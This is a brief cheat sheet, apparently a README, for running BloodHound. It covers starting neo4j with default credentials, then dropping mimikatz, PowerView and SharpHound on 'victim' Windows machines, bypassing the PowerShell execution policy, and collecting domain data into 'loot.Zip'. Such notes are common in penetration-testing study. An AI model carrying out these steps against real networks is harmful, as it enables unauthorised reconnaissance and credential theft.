 # Bloodhound

First Start ------>>>>> ```neo4j console```
Open it in browser ------>>>>> ```http://localhost:7474/```
Login with ------>>>>> ```neo4j/123456 Default pass is neo4j/neo4j```
Open ------>>>>> ```bloodhound in terminal```
Login ------>>>>> ```user/pass```


# Connect with victim windows systems and put these 3 files. 
1). mimikatz.exe
2). powerView.ps1
3). SharpHound.ps1


# Use these cmds in victim systems. 
1). powershell -ep bypass
2). ..\SharpHound.ps1
3). Invoke-Bloodhound -CollectionMethod All -Domain controller.local -ZipFileName loot.Zip


# Take loot.Zip file to import bloodhound in our systems
1). import graph ---->>> uploaded file here
2). Check it and enjoy it.

